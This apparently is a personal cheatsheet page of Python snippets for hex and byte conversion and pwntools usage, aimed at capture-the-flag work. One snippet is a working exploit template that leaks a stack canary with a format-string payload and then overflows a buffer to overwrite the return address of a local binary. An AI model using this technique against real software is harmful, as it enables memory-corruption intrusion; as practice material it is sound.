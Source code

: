 +++
title = "Some commonly used and helpful python snippets"
[taxonomies]
tags = ['scripting', 'Python Programming']
+++

## Python Snippets

- hex to bytes to string

```python
hex_value = "4765656b73666f724765656b73"
byte_str = bytes.fromhex(hex_value)
result_str = byte_str.decode('utf-8')
```

- string to bytes

```python
byte_arr = str.encode("Foo")
```

- string to hexdump

```python
byte_out = "string".encode().hex()
```

- hex string to int

```python
x = int("deadbeef", 16)
x = int("0xdeadbeef", 0)
x = int("0xdeadbeef", 16)
```

- integer to binary/octal/hexadecimal

```python
bin(23)  
oct(31)
hex(26)
```

- basic pwntools template

```py
#!/usr/bin/python
import pwn

# we use a separate pty to resolve IO issues on some terminals
pty = pwn.process.PTY
proc = pwn.process("./a.out", stdin = pty, stdout = pty)

proc.recvuntil(b"lies at ")
addr = proc.recvline().decode("utf-8").strip()
# print("addr =", addr)

addr = int(addr, 16)

proc.recvline()
proc.recvline()

pad = b"-" * 11
buffer = b"a" * 32
format_string_payload = buffer + pad + b"%21$p"

proc.sendline(format_string_payload)

proc.recvline()
proc.sendline(b"2020")

proc.recvline()
proc.sendline(b"06")

proc.recvline()
proc.sendline(b"16")

proc.recvuntil(b"to " + pad)

canary = proc.recvline().decode("utf-8").strip()
# print("canary =", canary)

canary = int(canary, 16)

proc.recvuntil(b"you?")

buffer = b"a" * 32
format_string = b"b" * 16

padding = b"c" * 8

payload = buffer + format_string + padding + pwn.p64(canary) + padding + pwn.p64(addr)

proc.sendline(payload)

proc.recvline()
proc.recvline()
print("############################# PROGRAM OUTPUT #########################")
print(proc.recvline().decode("utf-8"))
print("######################################################################")
```

- connect to a netcat port

``` python
io = remote("new.domain.name", 80)
io = remote("12.12.12.12", 5000)
```

- receive xyz after connecting

``` python
io.recv(n) # nbytes
io.recvline() # till newline
io.recvuntil("string") #receive until the occurrence of string
```

- send xyz after connecting

``` python
io.send(b'bytes')
io.sendline(b'bytes') # also sends a newline
```

- convert an integer to 32/64 byte address little-endian

``` python
pwn.p32(some_integer)
pwn.p64(some_integer)
```

- same as above, but big-endian, and signed

``` python
pwn.p64(some_int, endian="big", sign=True)
```
